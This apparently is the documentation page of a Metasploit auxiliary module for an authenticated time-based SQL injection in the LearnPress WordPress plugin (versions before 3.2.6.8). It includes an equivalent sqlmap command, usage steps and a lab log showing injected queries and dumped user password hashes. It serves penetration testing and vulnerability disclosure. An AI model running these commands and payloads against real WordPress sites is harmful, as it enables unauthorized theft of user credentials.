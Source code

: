 ## Vulnerable Application

LearnPress, a learning management plugin for WordPress,
prior to 3.2.6.8 is affected by an authenticated SQL injection via the
`current_items[]` parameter of the `post-new.php` page.

The plugin can be downloaded [here](https://downloads.wordpress.org/plugin/learnpress.3.2.6.7.zip)

This module slightly replicates sqlmap running as:

```
sqlmap -u 'http://<IP>/wp-admin/post-new.php?post_type=lp_order' --cookie '<cookie>' --data "type=lp_course&context=order-items&context_id=32&term=+test&paged=1&lp-ajax=modal_search_items&current_items[]=1" -p "current_items[]" --technique T -T wp_users -C user_login,user_pass --dump --dbms mysql
```

## Verification Steps

1. Install the plugin, use defaults
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/wp_learnpress_sqli`
4. Do: `set username <username>`
5. Do: `set password <password>`
6. Do: `run`
7. You should get the users and hashes returned.

## Options

### ACTION: List Users

This action lists `COUNT` users and password hashes.

## COUNT

If action `List Users` is selected (default), this is the number of users to enumerate.
The larger this list, the more time it will take.  Defaults to `3`.

### PASSWORD

The password for a user.

### USERNAME

The username for a user.

## Scenarios

### LearnPress 3.2.6.7 on Wordpress 5.4.4 on Ubuntu 20.04

```
resource (learnpress.rb)> use auxiliary/scanner/http/wp_learnpress_sqli
resource (learnpress.rb)> set rhosts 111.111.1.111
rhosts => 111.111.1.111
resource (learnpress.rb)> set username admin
username => admin
resource (learnpress.rb)> set password admin
password => admin
resource (learnpress.rb)> set verbose true
verbose => true
resource (learnpress.rb)> set count 3
count => 3
resource (learnpress.rb)> run
[*] Checking /wp-content/plugins/learnpress/readme.txt
[*] Found version 3.2.6.7 in the plugin
[+] Vulnerable version of LearnPress detected
[*] Enumerating Usernames and Password Hashes
[*] {SQLi} Executing (select group_concat(CKvFyxDg) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) CKvFyxDg from wp_users limit 3) wmnJO)
[*] {SQLi} Encoded to (select group_concat(CKvFyxDg) from (select cast(concat_ws(0x3b,ifnull(user_login,repeat(0xd5,0)),ifnull(user_pass,repeat(0x49,0))) as binary) CKvFyxDg from wp_users limit 3) wmnJO)
[*] {SQLi} Time-based injection: expecting output of length 124
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/wp_learnpress_sqli) > creds
Credentials
===========

host  origin         service  public  private                             realm  private_type        JtR Format
----  ------         -------  ------  -------                             -----  ------------        ----------
      111.111.1.111           admin   $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0         Nonreplayable hash  phpass
      111.111.1.111           editor  $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/         Nonreplayable hash  phpass
      111.111.1.111           admin2  $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1         Nonreplayable hash  phpass
```
